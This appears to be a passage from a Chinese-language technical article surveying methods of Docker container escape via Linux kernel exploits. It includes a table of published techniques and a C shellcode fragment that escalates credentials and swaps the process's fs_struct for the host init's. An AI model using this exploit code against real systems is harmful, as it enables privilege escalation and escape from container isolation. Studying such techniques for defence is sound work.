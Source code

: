 在利用内核漏洞进行Docker逃逸时，目前主要考虑突破 capability、namespace和seccomp 三种限制，所以后续内容只涉及这三个方面。

## 四、利用方法发展历史

从公开的文档来看，利用Linux内核漏洞进行Docker逃逸已经有几年的历史了，目前能看到的方法有三种：

| 时间 | 方法 | 条件 |
|----|----|----|
| [20190306](https://web.archive.org/web/20190411052819/https://capsule8.com/blog/practical-container-escape-exercise/) | （ret2usr）改cred + 改`current→fs` | 可关闭SMEP |
| [20190304](https://www.cyberark.com/resources/threat-research-blog/the-route-to-root-container-escape-using-kernel-exploitation)/[20190808](https://i.blackhat.com/USA-19/Thursday/us-19-Edwards-Compendium-Of-Container-Escapes-up.pdf) | （ret2usr）改cred + 切namespace + setns() | 可关闭SMEP，有CAP_SYS_ADMIN |
| [20210707](https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/writeup.md#escaping-the-container-and-popping-a-root-shell) | （kernel ROP）改cred + 切namespace  + 用户态setns() | 有CAP_SYS_ADMIN |

### 4.1 改进程fs_struct

最初的逃逸方案是基于SMEP已关闭的前提下，ret2usr后：

* `commit_creds(prepare_kernel_cred(0))`提权 —— 改了进程的capability
* `copy_fs_struct()` —— 将host中pid为1的进程其 task_struct->fs 复制一份
* 用上一步的返回值替换 `current->fs` —— 更改文件系统

ret2usr后利用代码片段：

```c
uint64_t pid_offset_ = 0x9c0;
uint64_t parent_offset_ = 0x9d0;
uint64_t fs_offset_ = 0xbf8;    // 需要task_struct中关键成员的偏移值

uint64_t userpid = 34;

static ssize_t set_fs_(void){
    struct task_struct *task_;
    struct task_struct *init_;
    uint32_t pid_ = 0;
    
    void * userkpid = find_get_pid(userpid);  // 需要Docker中进程的pid
    task_ = pid_task(userkpid,PIDTYPE_PID);
    
    init_ = task_;         // 需要循环搜索
    while (pid_ != 1) {        
        init_ = *(struct task_struct **)((char*)init_ + parent_offset_);
        pid_ = *(uint32_t *)((char*)init_ + pid_offset_);
    }
    
    uint64_t(*copy_fs_struct)(uint64_t) = 0xFFFFFFFF813D2F20;       // 需要几个关键函数的地址
    uint64_t g = (*copy_fs_struct)(*(uint64_t*)((char*)init_ + fs_offset_));
    
    *(uint64_t *)((char*)task_ + fs_offset_) = g;   
    
    return 0;
}

void shellcode(){
    commit_creds(prepare_kernel_cred(0));
    set_fs_();
}
```
